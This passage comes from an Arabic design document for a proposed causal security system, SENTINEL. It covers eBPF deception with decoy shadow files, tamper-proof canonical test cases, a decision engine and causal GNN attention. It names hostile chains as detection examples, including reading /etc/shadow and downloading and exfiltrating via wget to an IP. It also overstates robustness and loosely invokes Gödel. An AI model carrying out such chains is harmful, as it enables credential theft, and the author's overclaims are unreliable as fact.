## 8.3 Tattoo Score — الوزن الزمني

**معادلة الـ Tattoo Score:**

$$\text{TattooScore}(v, t) = \int_0^t \psi(e_v(\tau)) \cdot e^{-\lambda(t-\tau)} \, d\tau + \sum_{i=1}^{n} S_i \cdot \delta(\tau - t_i)$$

حيث:
- $\psi(e_v(\tau))$ = الوزن السببي للأحداث المرتبطة بـ $v$ عبر الزمن
- $e^{-\lambda(t-\tau)}$ = temporal decay — الأحداث القديمة تؤثر أقل
- $S_i$ = الـ suspicion level من tattoos سابقة — **لا تخضع للـ decay!**
- $\delta(\tau - t_i)$ = delta function — الـ tattoos تُضاف كنقاط ثابتة

```
المعنى:
  الأحداث العادية تنسى تدريجياً (decay)
  ولكن الـ tattoos لا تُنسى أبداً (delta spikes)
  
  مثال:
  t=0:   nginx يتصرف بشكل غريب → tattoo(suspicion=0.7)
  t=24h: الخادم يُعاد تشغيله → كل الأحداث تختفي
  t=48h: نفس الكيان يظهر مجدداً
  
  بدون tattoos: TattooScore = 0 (بداية جديدة)
  مع tattoos:   TattooScore = 0.7 (يتذكر!)
                 → المراقبة المشددة تبدأ فوراً
```

## 8.4 Hybrid Storage Architecture

```
┌─────────────────────────────────────────────────────────┐
│            Hybrid Tattoo Storage                        │
├─────────────────────────────────────────────────────────┤
│                                                         │
│  ┌─────────────────────────────────┐                    │
│  │  Fast Path: eBPF Maps (RAM)    │ ← microseconds     │
│  │  BPF_MAP_TYPE_HASH             │                    │
│  │  الأوشام النشطة (آخر 24 ساعة)  │                    │
│  │  الحد: ~100K tattoos           │                    │
│  └───────────────┬─────────────────┘                    │
│                  │ async flush                          │
│                  ▼                                      │
│  ┌─────────────────────────────────┐                    │
│  │  Slow Path: RocksDB (Disk)     │ ← milliseconds     │
│  │  LSM-tree storage              │                    │
│  │  كل الأوشام التاريخية          │                    │
│  │  الحد: حجم الـ disk فقط        │                    │
│  │  مع Bloom Filters للبحث السريع │                    │
│  └─────────────────────────────────┘                    │
│                                                         │
│  ────────────────────────────────────────────────────── │
│                                                         │
│  ┌─────────────────────────────────┐                    │
│  │  Resurrection Protocol (Boot)  │                    │
│  │                                │                    │
│  │  Step 1: Chain Verifier        │                    │
│  │    يتحقق من صحة كل الـ chain   │                    │
│  │    cryptographically            │                    │
│  │    أي tattoo مزيف → يكسر chain │                    │
│  │                                │                    │
│  │  Step 2: Cache Warmer          │                    │
│  │    يعيد حقن الأوشام المهمة     │                    │
│  │    في eBPF maps (RAM)          │                    │
│  │                                │                    │
│  │  Step 3: Network Gate          │                    │
│  │    ❌ لا شبكة قبل اكتمال       │                    │
│  │    الخطوتين أعلاه              │                    │
│  │    ← يمنع المهاجم من التصرف    │                    │
│  │    قبل عودة الذاكرة            │                    │
│  └─────────────────────────────────┘                    │
│                                                         │
└─────────────────────────────────────────────────────────┘
```

## 8.5 مخطط Tattoo Lifecycle



---

# 9. الطبقة 7 — Zero-Latency Deception Fabric

## 9.1 لماذا Deception وليس فقط Block؟

```
┌─────────────────────────────────────────────────────────┐
│  Block vs Deception                                     │
├─────────────────────────────────────────────────────────┤
│                                                         │
│  Block (التقليدي):                                      │
│  المهاجم يحاول → يُحجب → يعرف أنه مكشوف               │
│  → يغيّر أسلوبه → يحاول مرة أخرى → ربما ينجح           │
│                                                         │
│  Deception (SENTINEL):                                  │
│  المهاجم يحاول → يظن أنه نجح → يكشف نيته كاملة        │
│  → SENTINEL يتعلم أسلوبه → يكتشف هجمات مشابهة مستقبلاً │
│  → المهاجم لا يعرف أبداً أنه مكشوف                     │
│                                                         │
│  الفائدة الاستراتيجية:                                  │
│  Block = دفاع سلبي (يمنع هجوم واحد)                    │
│  Deception = هجوم مضاد (يمنع كل هجمات المهاجم المستقبلية)│
│                                                         │
└─────────────────────────────────────────────────────────┘
```

## 9.2 كيف يعمل — In-Kernel Deception

```
┌─────────────────────────────────────────────────────────┐
│  الطريقة التقليدية (Sandbox):                           │
│                                                         │
│  المهاجم في Process A                                   │
│  → نقلِه إلى VM/Container منفصل                         │
│  → Context switch = ~50 microseconds                    │
│  → المهاجم يقيس بـ RDTSC:                               │
│    "لماذا كل شيء أبطأ بـ 50μs؟ أنا في sandbox!"       │
│  → يتوقف فوراً ← FAILED ✗                              │
│                                                         │
│  ────────────────────────────────────────────────────── │
│                                                         │
│  طريقة SENTINEL (In-Kernel):                            │
│                                                         │
│  المهاجم في Process A                                   │
│  → يطلب: read("/etc/shadow")                            │
│  → eBPF يعترض الـ syscall عبر bpf_override_return       │
│  → يستبدل المحتوى ببيانات وهمية                         │
│  → نفس الـ process, نفس الذاكرة, نفس الـ CPU core       │
│  → لا context switch, لا VM                             │
│  → RDTSC يُظهر timing طبيعي تماماً                     │
│  → المهاجم يظن: "حصلت على shadow الحقيقي!"             │
│  → يشفّره ويرسله لـ C2                                  │
│  → SENTINEL يعرف الآن:                                  │
│    - نية المهاجم (exfiltration)                         │
│    - خادم الـ C2                                         │
│    - طريقة التشفير                                      │
│    - أسلوب الهجوم كاملاً                                │
│  ← SUCCESS ✓                                            │
│                                                         │
└─────────────────────────────────────────────────────────┘
```

## 9.3 التقنيات الأربع

### تقنية 1 — bpf_override_return

```
eBPF hook على sys_openat():
  إذا الـ process مشبوه + الملف حساس:
    → لا تفتح الملف الحقيقي
    → افتح نسخة وهمية من /var/sentinel/decoy/shadow
    → أعد الـ file descriptor للمهاجم
    → سجّل كل ما يفعله بالبيانات
```

### تقنية 2 — Cache Warming

```
المشكلة:
  البيانات الوهمية ليست في CPU cache
  → أول read أبطأ من العادي
  → Cache timing attack يكشف الفرق

الحل:
  قبل إعطاء file descriptor للمهاجم:
  → prefetch البيانات الوهمية في L1/L2 cache
  → أول read = نفس سرعة read عادي
  → لا فرق قابل للقياس
```

### تقنية 3 — Deception RL Agent

```
المشكلة:
  بيئة وهمية ثابتة — المهاجم المتقدم يكتشفها

الحل:
  RL Agent يُخصص ما يظهر بناءً على سلوك المهاجم:
  
  Policy: π(action | state) حيث:
    state = سلوك المهاجم حتى الآن
    action = ماذا يُظهر في الخطوة التالية
  
  Reward = information gained عن نية المهاجم
    r = ΔH(Intent) = كم معلومات جديدة تعلمنا عن نيته
```

**معادلة الـ Reward:**

$$r_t = H_{causal}(v, t-1) - H_{causal}(v, t)$$

```
المعنى:
  إذا بعد عرض بيانات وهمية، الـ entropy انخفضت
  (أصبحنا أكثر تأكداً من نية المهاجم)
  → reward عالي ← RL agent يتعلم أن هذا القرار صحيح

  إذا بعد عرض بيانات وهمية، لا معلومات جديدة
  → reward = 0 ← جرب شيئاً مختلفاً
```

### تقنية 4 — Timing Normalization

```
حتى مع bpf_override_return, قد يكون هناك
فرق timing بسيط في بعض الحالات.

الحل:
  لكل نوع syscall, SENTINEL يقيس average latency
  على الأحداث العادية (benign baseline).
  
  عند deception:
    actual_time = الوقت الفعلي للعملية الوهمية
    expected_time = الوقت المتوقع للعملية الحقيقية
    
    إذا actual_time < expected_time:
      → أضف delay صغير (busy wait)
    إذا actual_time > expected_time:
      → اقبله (أبطأ قليلاً عادةً لا يُلاحظ)
```

## 9.4 مخطط Deception الكامل



---

# 10. الطبقة 8 — Immutable Mathematical Anchor

## 10.1 مشكلة Gödel — لماذا لا يمكن للنظام مراقبة نفسه؟

```
┌─────────────────────────────────────────────────────────┐
│  مبرهنة Gödel للعدم اكتمال (1931):                     │
│                                                         │
│  "أي نظام رسمي (formal system) قوي بما يكفي             │
│   لا يمكنه إثبات تماسكه الداخلي باستخدام نفس النظام"   │
│                                                         │
│  التطبيق في الأمن السيبراني:                            │
│                                                         │
│  النموذج ML يكشف التهديدات                              │
│  ↓                                                      │
│  المهاجم الصبور يُسمّم الـ training data ببطء           │
│  ↓                                                      │
│  النموذج يتعلم أن السلوك الخبيث "عادي"                  │
│  ↓                                                      │
│  هل النموذج يمكنه اكتشاف أنه تسمّم؟                    │
│  ← لا! لأنه يستخدم نفس المنطق المسموم للحكم!           │
│                                                         │
│  هذا بالضبط ما تقوله مبرهنة Gödel:                     │
│  النظام لا يجد الخلل في منطقه باستخدام نفس المنطق      │
│                                                         │
└─────────────────────────────────────────────────────────┘
```

## 10.2 الحل — Immutable Anchor خارج النموذج

```
┌─────────────────────────────────────────────────────────┐
│  المبدأ: المرساة خارج النموذج تماماً ولا تتعلم          │
├─────────────────────────────────────────────────────────┤
│                                                         │
│  ┌───────────────────────────────────────────────┐      │
│  │           النموذج ML (يتعلم ويتطور)           │      │
│  │                                               │      │
│  │   يمكن أن يتسمم ← يتغير بمرور الوقت          │      │
│  │                                               │      │
│  │   θ_t = أوزان النموذج عند اللحظة t            │      │
│  │   θ_0 = أوزان عند التثبيت                     │      │
│  │   θ_t ≠ θ_0 → هل هذا تعلم طبيعي أو تسمم؟    │      │
│  └────────────────────┬──────────────────────────┘      │
│                       │ يُختبر بواسطة                    │
│                       ▼                                  │
│  ┌───────────────────────────────────────────────┐      │
│  │      Immutable Mathematical Anchor            │      │
│  │                                               │      │
│  │   ❌ لا يتعلم. أبداً.                         │      │
│  │   ❌ لا يتغير. أبداً.                         │      │
│  │   ✅ axiom رياضي ثابت كالجاذبية               │      │
│  │                                               │      │
│  │   Canonical Test Cases:                       │      │
│  │   مجموعة اختبارات موقّعة cryptographically    │      │
│  │   ← لا يمكن تعديلها حتى من admin              │      │
│  │                                               │      │
│  │   "nginx → bash = malicious" يجب أن يكون      │      │
│  │   صحيحاً دائماً. إذا تغيّر → FREEZE + ALERT  │      │
│  └───────────────────────────────────────────────┘      │
│                                                         │
└─────────────────────────────────────────────────────────┘
```

## 10.3 المكوّنان الأساسيان

### المكوّن 1 — Semantic Drift Monitor

**المعادلة:**

$$\text{Drift}(\theta_t, \mathcal{T}) = \frac{1}{|\mathcal{T}|} \sum_{(x,y) \in \mathcal{T}} \mathbb{1}[f_{\theta_t}(x) \neq y]$$

حيث:
- $\theta_t$ = أوزان النموذج عند اللحظة $t$
- $\mathcal{T}$ = canonical test cases (موقّعة، ثابتة)
- $f_{\theta_t}(x)$ = خرج النموذج على المدخل $x$
- $y$ = الإجابة الصحيحة (ثابتة)

```
كيف يعمل عملياً:

  كل 24 ساعة:
  1. أحضر الـ canonical test cases (مخزّنة مشفرة)
  2. شغّل النموذج عليها
  3. قارن النتائج مع الإجابات الصحيحة
  4. إذا Drift > ε (مثلاً 5%):
     → ❄️ FREEZE النموذج ← توقف عن التعلم
     → 🚨 ALERT ← أبلغ الـ admin
     → 🔙 ROLLBACK ← ارجع لآخر نسخة نظيفة
  
  مثال canonical test cases:
  
  Test 01: (nginx → bash) → يجب أن يكون malicious
  Test 02: (nginx → read(access.log)) → يجب أن يكون benign
  Test 03: (sshd → exec(bash)) → يجب أن يكون benign
  Test 04: (mysql → read(/etc/shadow)) → يجب أن يكون malicious
  ...
  Test 50: كل الحالات المعروفة
```

### المكوّن 2 — Gradient Velocity Monitor

**المعادلة:**

$$V_{grad}(t) = \frac{\|\theta_t - \theta_{t-\Delta}\|_2}{\Delta}$$

$$\text{Concept\_Drift\_Attack} = \begin{cases} \text{True} & \text{if } V_{grad}(t) > V_{max} \text{ لمدة } > T_{window} \\ \text{False} & \text{otherwise} \end{cases}$$

```
المعنى:
  نراقب سرعة تغيّر أوزان النموذج.
  
  تعلم طبيعي:
    V_grad يبدأ مرتفعاً (في البداية) ثم يستقر
    
  Data Poisoning:
    V_grad يرتفع ببطء مستمر لأسابيع
    ← المهاجم يُعيد تشكيل الأوزان تدريجياً
    
  إذا V_grad > V_max لمدة > 30 يوم:
    → 🚨 Concept Drift Attack Alert
    → ❄️ FREEZE + تحليل الـ training data
```

## 10.4 مخطط Immutable Anchor



---

# 11. الطبقة 9 — Decision Engine وشجرة القرار

## 11.1 شجرة القرار الكاملة

```
                    ┌──────────────────────┐
                    │   Event يصل          │
                    └──────────┬───────────┘
                               │
                    ┌──────────▼───────────┐
                    │ L0: Axiom Violated?  │
                    └──────────┬───────────┘
                          ┌────┴────┐
                     نعم ──┤        ├── لا
                          │        │
                   ┌──────▼──┐  ┌──▼──────────────────┐
                   │❌ KILL  │  │ L1: Tattoo موجود؟    │
                   │ فوراً   │  └──────────┬───────────┘
                   └─────────┘        ┌────┴────┐
                                 نعم ──┤        ├── لا
                                      │        │
                               ┌──────▼──────────────────┐
                               │ ارفع مستوى الشك         │
                               │ اجمع tattoo history      │
                               └──────────┬───────────────┘
                                          │
                               ┌──────────▼───────────┐
                               │ L3: Intent Inference  │
                               │ + Coarse-to-Fine      │
                               └──────────┬───────────┘
                                          │
                               ┌──────────▼───────────┐
                               │ L4: Causal Entropy    │
                               └──────────┬───────────┘
                                     ┌────┴────────────┐
                              H<0.5──┤    0.5≤H<1.5    ├──H≥1.5
                                     │                 │
                              ┌──────▼──┐       ┌──────▼───────┐
                              │High Conf│       │🎭 DECEPTION  │
                              └────┬────┘       │   MODE       │
                                   │            └──────────────┘
                          ┌────────▼──────────┐
                          │ تفسير benign كامل؟│
                          └────────┬──────────┘
                              ┌────┴────┐
                         نعم ──┤        ├── لا
                              │        │
                       ┌──────▼──┐  ┌──▼──────────────┐
                       │✅ ALLOW │  │ Confidence>0.95? │
                       └─────────┘  └──────┬──────────┘
                                      ┌────┴────┐
                                 نعم ──┤        ├── لا
                                      │        │
                               ┌──────▼──┐  ┌──▼───────────┐
                               │❌ KILL  │  │ Counterfactual │
                               │+ LOG   │  │ Check         │
                               │+Tattoo │  └───────┬───────┘
                               └─────────┘    ┌────┴────┐
                                         حقيقي┤        ├غامض
                                              │        │
                                       ┌──────▼──┐  ┌──▼────────┐
                                       │❌ KILL  │  │🎭DECEPTION│
                                       └─────────┘  └───────────┘
```

## 11.2 كل قرار يحمل تفسيراً كاملاً

```
┌─────────────────────────────────────────────────────────┐
│  Decision Output Structure                              │
├─────────────────────────────────────────────────────────┤
│                                                         │
│  struct Decision {                                      │
│    action:          Action,     // ALLOW|KILL|DECEPTION  │
│    confidence:      f64,        // 0.0 — 1.0            │
│    causal_chain:    Vec<Event>, // السلسلة السببية       │
│    reasoning:       String,     // لماذا هذا القرار      │
│    axioms_checked:  Vec<Axiom>, // أي axioms فُحصت      │
│    tattoo_history:  Vec<Tattoo>,// الأوشام ذات الصلة     │
│    counterfactual:  Option<CF>, // نتيجة التفكير المضاد  │
│    entropy:         f64,        // مستوى الشك            │
│    timestamp:       u64,        // وقت القرار            │
│    latency_ns:      u64,        // كم استغرق القرار      │
│  }                                                      │
│                                                         │
│  مثال خرج:                                              │
│  {                                                      │
│    action: KILL,                                        │
│    confidence: 0.98,                                    │
│    causal_chain: [                                      │
│      "bash(pid=1234) → exec(wget)",                    │
│      "wget → download(malware.sh)",                    │
│      "malware.sh → read(/etc/shadow)",                 │
│      "malware.sh → send(45.33.32.156:443)"             │
│    ],                                                   │
│    reasoning: "لا يوجد تفسير benign لسلسلة:             │
│      wget→download→read(shadow)→exfil.                  │
│      Axiom EXEC_002 violated: downloaded script         │
│      accessing sensitive files.",                       │
│    axioms_checked: [EXEC_001, FILE_003, NET_002],      │
│    tattoo_history: [tattoo_from_2h_ago(suspicion=0.6)],│
│    counterfactual: CF(exfil | do(¬download)) ≈ 0,      │
│    entropy: 0.12,                                       │
│    latency_ns: 2_340_000  // 2.34ms                    │
│  }                                                      │
│                                                         │
└─────────────────────────────────────────────────────────┘
```

---

# 12. الابتكار الأصيل — Causal Attention Mechanism

## 12.1 المشكلة — Oversmoothing في GNNs

```
┌─────────────────────────────────────────────────────────┐
│  Oversmoothing — لماذا GNNs العميقة تفشل                │
├─────────────────────────────────────────────────────────┤
│                                                         │
│  طبقة 1:  كل node تأخذ معلومات من جيرانها المباشرين     │
│           ← embeddings مختلفة ← تمييز جيد                │
│                                                         │
│  طبقة 2:  كل node تأخذ معلومات من جيران الجيران        │
│           ← embeddings تبدأ تتشابه                      │
│                                                         │
│  طبقة 3:  كل node تصل لمعظم الـ graph                   │
│           ← embeddings متشابهة جداً                      │
│                                                         │
│  طبقة 4+: كل الـ nodes لها نفس الـ embedding تقريباً    │
│           ← لا يمكن التمييز بين benign و malicious!     │
│                                                         │
│  الحلول الموجودة:                                       │
│  DropEdge (ICLR 2020) — حذف عشوائي ← ليس ذكي           │
│  JKNet (ICML 2018) — skip connections ← لا يفهم السببية │
│  PairNorm (ICLR 2020) — normalization ← معالجة سطحية    │
│                                                         │
│  ❌ لا أحد ربط المشكلة بالسببية — هنا ابتكار SENTINEL   │
│                                                         │
└─────────────────────────────────────────────────────────┘
```

## 12.2 الحل — Causal Attention

### Vanilla Attention (التقليدي):

$$\alpha_{ij} = \frac{\exp\big(\text{sim}(h_i, h_j)\big)}{\sum_k \exp\big(\text{sim}(h_i, h_k)\big)}$$

```
المشكلة:
  sim(h_nginx, h_bash) قد تكون عالية
  لأن كلاهما processes, لهما features متشابهة
  ← GNN يمزج embeddings بالتساوي ← oversmoothing
```

### Causal Attention (SENTINEL):

$$\alpha_{ij}^{causal} = \frac{\exp\Big(\psi(e_{ij}) \cdot \mathbb{1}[\neg\text{axiom\_violated}(i,j)]\Big)}{\sum_{k \in \mathcal{N}(i)} \exp\Big(\psi(e_{ik})\Big)}$$

```
الفرق:
  بدل similarity إحصائي → causal weight ψ
  + hard constraint 𝟙 يُلغي edges ممنوعة

  النتيجة:
  α(nginx, access.log) = 0.85  ← وزن سببي عالي ← يساهم كثيراً
  α(nginx, error.log)  = 0.14  ← وزن سببي متوسط
  α(nginx, /etc/shadow) = 0.01 ← وزن سببي شبه صفري ← لا يمزج!
  α(nginx, bash)        = 0.00 ← axiom violation → صفر تماماً
  
  ← nginx embedding لا يتلوث بـ bash embedding
  ← Oversmoothing SOLVED سببياً
```

## 12.3 Multi-Head Causal Attention

```
┌─────────────────────────────────────────────────────────┐
│  أربعة رؤوس انتباه (Four Attention Heads)              │
├─────────────────────────────────────────────────────────┤
│                                                         │
│  Head 1 — Causal Strength:                              │
│    α¹_ij = softmax(ψ(e_ij))                             │
│    يركّز على: أقوى الروابط السببية                       │
│    الفائدة: يكتشف attack chains                          │
│                                                         │
│  Head 2 — Temporal Proximity:                            │
│    α²_ij = softmax(decay(Δt_ij))                        │
│    يركّز على: الأحداث القريبة زمنياً                     │
│    الفائدة: يكتشف rapid exploitation                    │
│                                                         │
│  Head 3 — Axiom Violation:                               │
│    α³_ij = softmax(axiom_distance(i,j))                 │
│    يركّز على: الانتهاكات المنطقية                        │
│    الفائدة: يكتشف impossible behaviors                   │
│                                                         │
│  Head 4 — Counterfactual Necessity:                      │
│    α⁴_ij = softmax(CF_necessity(e_ij))                  │
│    يركّز على: edges لا يمكن حذفها                        │
│    الفائدة: يكتشف causal backbone                       │
│                                                         │
│  الدمج:                                                  │
│    α_final = (1/4) Σ αʰ_ij                              │
│    أو: α_final = learned_weights · [α¹,α²,α³,α⁴]       │
│                                                         │
└─────────────────────────────────────────────────────────┘
```

**المعادلة الرسمية:**

$$\alpha_{ij}^{final} = \sum_{h=1}^{H} w_h \cdot \alpha_{ij}^{(h)}$$

$$h_v^{(k)} = \sigma\left(\sum_{u \in \mathcal{N}(v)} \alpha_{uv}^{final} \cdot W^{(k)} \cdot h_u^{(k-1)}\right)$$

## 12.4 حل مشكلة Non-Differentiability

```
┌─────────────────────────────────────────────────────────┐
│  المشكلة: 𝟙[¬axiom_violated] غير قابل للاشتقاق         │
│  ← لا يمكن حساب gradient ← لا يمكن تدريب الـ GNN       │
│                                                         │
│  الحل: Straight-Through Estimator (STE)                 │
│                                                         │
│  Forward pass: 𝟙[¬axiom_violated]                       │
│    = 0 أو 1 (hard decision)                             │
│                                                         │
│  Backward pass: σ(k · axiom_margin)                     │
│    = sigmoid مع k كبير (مثلاً 10)                       │
│    = تقريب smooth للـ step function                     │
│    = يسمح بحساب gradient                                │
│                                                         │
│  ┌─────────────────────────────────────────┐             │
│  │     1 ─────────┐                        │             │
│  │                 │ Forward (hard)         │             │
│  │     0 ──────────┘                        │             │
│  │  ───────────────┼─────────                │             │
│  │     1 ─────╱    │                        │             │
│  │         ╱       │ Backward (smooth)      │             │
│  │     0 ╱─────────│                        │             │
│  └─────────────────────────────────────────┘             │
│                                                         │
│  axiom_margin = مسافة من حد الانتهاك                     │
│  كلما اقتربنا من الانتهاك (margin → 0)                  │
│  كلما انخفض gradient ← النموذج يبتعد عن الانتهاك       │
│                                                         │
└─────────────────────────────────────────────────────────┘
```

## 12.5 لماذا هذا يستحق ورقة بحثية مستقلة

```
Novel Contribution:
  1. أول ربط بين Oversmoothing في GNNs والسببية
  2. أول attention mechanism يستخدم Do-Calculus weights
  3. Hard constraints في attention (لا soft penalties)
  4. Multi-head مع 4 أبعاد سببية مختلفة
  5. حل non-differentiability عبر STE

Target Venues:
  - USENIX Security 2026
  - IEEE S&P 2026
  - NeurIPS 2026 (إذا ركّزنا على الـ GNN contribution)
  - ICLR 2026 (إذا ركّزنا على الـ attention mechanism)
```

---

# 13. الإضافات المقترحة الجديدة

## 13.1 Temporal Causal Convolution

### المشكلة:

```
temporal_decay العادي = exponential:
  e^(-λΔt)
  
  هذا يفترض أن التأثير السببي ينحل monotonically.
  ولكن بعض الهجمات لها أنماط دورية:
  
  C2 Beaconing: المهاجم يتصل بالـ C2 كل 5 دقائق بالضبط
  
  ┌────────────────────────────────────────────┐
  │  ▲ activity                                │
  │  │    │    │    │    │    │    │            │
  │  │    │    │    │    │    │    │            │
  │  └────┴────┴────┴────┴────┴────┴───► time  │
  │       5m   10m  15m  20m  25m  30m         │
  │                                            │
  │  exponential decay لا يلتقط هذا النمط      │
  │  causal convolution يلتقطه تلقائياً        │
  └────────────────────────────────────────────┘
```

### الحل — Learned Temporal Kernel:

$$\text{TempConv}(v, t) = \sum_{\tau=0}^{W} \psi(v, t-\tau) \cdot K(\tau)$$

حيث:
- $W$ = عرض النافذة الزمنية (window)
- $K(\tau)$ = learned kernel — يتعلم أنماط التوقيت

```
ما يتعلمه الـ kernel:
  K_1: ينتبه للأحداث المتكررة كل 5 دقائق (C2 beaconing)
  K_2: ينتبه للأحداث المتسارعة (lateral movement)
  K_3: ينتبه للأحداث المتباعدة (APT dormancy)
```

**Multiple Kernels (مثل CNN):**

$$\text{TempConv}(v, t) = \left[\sum_\tau \psi \cdot K_1(\tau), \sum_\tau \psi \cdot K_2(\tau), ..., \sum_\tau \psi \cdot K_M(\tau)\right]$$

## 13.2 Causal Graph Contrastive Learning

### المشكلة — ندرة Training Data:

```
Labeled security data = نادرة جداً ومكلفة.
DARPA TC datasets = ~5 سيناريوهات فقط.
Real APT attacks = سرية ولا تُنشر.

كيف ندرّب نموذجاً بدون labels كافية؟
```

### الحل — Self-Supervised Contrastive Learning:

$$\mathcal{L}_{contrastive} = -\log \frac{\exp\big(\text{sim}(z_v, z_{v^+}) / \tau\big)}{\sum_{v^-} \exp\big(\text{sim}(z_v, z_{v^-}) / \tau\big)}$$

```
كيف يعمل:

  1. خذ causal chain حقيقي: [A → B → C → D]
  
  2. Augmentation (إنشاء نسخة مشابهة):
     v+ = [A → B' → C → D]  (B تغيّر قليلاً — مثلاً timing مختلف)
     هذا يجب أن يكون قريب في الـ embedding space
     
  3. Negative (سلاسل مختلفة):
     v- = [X → Y → Z → W]  (سلسلة مختلفة تماماً)
     هذا يجب أن يكون بعيد في الـ embedding space
     
  4. Loss يجبر النموذج على:
     sim(z_v, z_v+) → 1  (المتشابهات قريبة)
     sim(z_v, z_v-) → 0  (المختلفات بعيدة)

  5. بدون labels! النموذج يتعلم بنية الـ causal graphs
     من البيانات نفسها
```

**أنواع Augmentation الخاصة بـ Causal Graphs:**

```
┌─────────────────────────────────────────────────────────┐
│  Causal Graph Augmentations                             │
├─────────────────────────────────────────────────────────┤
│                                                         │
│  1. Temporal Jitter:                                    │
│     timestamps ± random noise                           │
│     (السببية لا تتغير بتغيير الـ timing قليلاً)         │
│                                                         │
│  2. Causal Edge Sampling:                               │
│     حذف edges ضعيفة السببية (ψ < threshold)            │
│     (الـ backbone لا يتغير)                             │
│                                                         │
│  3. Context Masking:                                    │
│     إخفاء بعض الـ context fields عشوائياً              │
│     (النية لا تتغير بنقص بعض المعلومات)                │
│                                                         │
│  4. Subgraph Cropping:                                  │
│     أخذ subgraph عشوائي                                │
│     (جزء من الـ attack chain لا يزال attack)           │
│                                                         │
└─────────────────────────────────────────────────────────┘
```

## 13.3 Causal Anomaly Score — بديل لـ Anomaly Score التقليدي

### الفرق:

```
Anomaly Score التقليدي:
  score = ||embedding - centroid||₂
  "كم بعيد هذا الـ embedding عن المتوسط؟"
  ← يُخدع بـ Mimicry (المهاجم يقترب من الـ centroid)

Causal Anomaly Score:
  score = Σ axiom_violations + CF_analysis + tattoo_history
  "كم axiom انتهك + هل السببية حقيقية + هل هناك تاريخ مشبوه؟"
  ← لا يُخدع — الـ axioms ثابتة والسببية لا تتغير
```

**المعادلة:**

$$\text{CAS}(v) = \omega_1 \cdot \underbrace{\sum_{a \in \mathcal{A}} \text{violation\_score}(v, a)}_{\text{كم axiom انتهك}} + \omega_2 \cdot \underbrace{(1 - \max_i P(i = \text{benign} | \text{chain}))}_{\text{كم صعب إيجاد تفسير benign}} + \omega_3 \cdot \underbrace{\text{TattooScore}(v)}_{\text{التاريخ المشبوه}}$$

## 13.4 Adversarial Causal Robustness

### الفكرة:

```
بدل الانتظار حتى يهاجم المهاجم ← ندرّب النموذج
على causal graphs مسمومة عن قصد.

Adversarial Training for CIG:
  1. خذ causal graph عادي
  2. أضف benign edges (Mimicry simulation)
  3. أضف poisoned training samples
  4. درّب النموذج ليبقى صحيحاً رغم التسمم
  
المعادلة:
  θ* = argmin_θ max_δ L(f_θ(G + δ), y)
  
  حيث δ = perturbation (هجوم على الـ graph)
  النموذج يُحسَّن ليكون immune ضد أسوأ هجوم ممكن
```

## 13.5 Hierarchical Intent Graph

```
┌─────────────────────────────────────────────────────────┐
│  ثلاث مستويات من النوايا                                │
├─────────────────────────────────────────────────────────┤
│                                                         │
│  Level 1 — Process Intent:                              │
│    ما نية هذا الـ process المحدد؟                        │
│    nginx → read(shadow) → intent: exfil                 │
│                                                         │
│  Level 2 — User Intent:                                 │
│    ما نية المستخدم الذي يشغل processes متعددة؟          │
│    user_X → nginx(exfil) + wget(download)               │
│    + bash(persist) → intent: full_compromise            │
│                                                         │
│  Level 3 — Network Intent:                              │
│    ما نية الهجوم عبر عدة خوادم؟                         │
│    server_A(recon) → server_B(escalation)               │
│    → server_C(exfil) → intent: coordinated_APT          │
│                                                         │
│  ⚠️ لا نظام حالي يصل لـ Level 3                        │
│  SENTINEL يمكنه بفضل Causal Tattoos عبر الخوادم         │
│                                                         │
└─────────────────────────────────────────────────────────┘
```

## 13.6 Online Causal Discovery

```
بدلاً من axioms يكتبها الخبير يدوياً:
  النموذج يكتشف axioms جديدة تلقائياً!
  
كيف:
  1. يراقب الـ causal graph لأسابيع (benign traffic)
  2. يكتشف patterns لا تتغير أبداً:
     "خلال 30 يوم, mysql لم يستدعي wget ولو مرة"
     ← مرشح لـ axiom جديد
  3. يقترح الـ axiom للـ admin للموافقة
  4. بعد الموافقة ← يدمج كـ Contextual Axiom
     (محمي بـ Immutable Anchor)
     
الفائدة:
  كل deployment يبني axioms خاصة ببيئته
  Kubernetes axioms ≠ monolithic server axioms
  بدون عمل يدوي من الخبير
```

---

# 14. جداول المقارنة الكاملة

## جدول 1 — مقارنة نماذج الاستدلال الأمني

```
┌──────────────────────┬─────────────┬─────────────┬─────────────┬─────────────────┐
│ الخاصية              │ Statistical │ GNN         │ LLM         │ SENTINEL Causal │
│                      │ Models      │(KAIROS/FLASH│ (OMNISEC)   │                 │
├──────────────────────┼─────────────┼─────────────┼─────────────┼─────────────────┤
│ أساس الاستدلال       │ احتمالات    │ تشابه graph │ فهم لغوي    │ Do-Calculus     │
│                      │ إحصائية    │             │             │ + Axioms        │
├──────────────────────┼─────────────┼─────────────┼─────────────┼─────────────────┤
│ يفهم "لماذا"         │ ❌          │ ❌          │ ⚠️ نصياً    │ ✅              │
├──────────────────────┼─────────────┼─────────────┼─────────────┼─────────────────┤
│ مقاوم للـ Mimicry     │ ❌          │ ⚠️         │ ❌          │ ✅ نظرياً       │
├──────────────────────┼─────────────┼─────────────┼─────────────┼─────────────────┤
│ يعمل بدون labels     │ ❌          │ ❌          │ ⚠️         │ ✅ Axioms       │
├──────────────────────┼─────────────┼─────────────┼─────────────┼─────────────────┤
│ قابل للتفسير         │ ❌          │ ⚠️         │ ✅          │ ✅ سلسلة سببية  │
├──────────────────────┼─────────────┼─────────────┼─────────────┼─────────────────┤
│ Latency              │ ms          │ ms—min      │ ثوانٍ       │ μs (L0/L1)      │
├──────────────────────┼─────────────┼─────────────┼─────────────┼─────────────────┤
│ يتعامل مع Confounders│ ❌          │ ❌          │ ❌          │ ✅ Do-Calculus   │
├──────────────────────┼─────────────┼─────────────┼─────────────┼─────────────────┤
│ يراقب نفسه           │ ❌          │ ❌          │ ❌          │ ✅ Anchor       │
├──────────────────────┼─────────────┼─────────────┼─────────────┼─────────────────┤
│ يتذكر بعد reboot     │ ❌          │ ❌          │ ❌          │ ✅ Tattoos      │
└──────────────────────┴─────────────┴─────────────┴─────────────┴─────────────────┘
```

## جدول 2 — طبقات النموذج مع المعادلات

```
┌────────┬───────────────────┬──────────────────────────────────────────┬────────────────────────────┐
│ الطبقة │ الدور             │ المعادلة الأساسية                        │ الابتكار                   │
├────────┼───────────────────┼──────────────────────────────────────────┼────────────────────────────┤
│ L0     │ eBPF Compression  │ Compress(e) = hash-based dedup          │ Causal Compression 99%     │
├────────┼───────────────────┼──────────────────────────────────────────┼────────────────────────────┤
│ L1     │ Causal Triple     │ τ = (s, a, o, t, ctx, depth)            │ Context + CausalDepth      │
├────────┼───────────────────┼──────────────────────────────────────────┼────────────────────────────┤
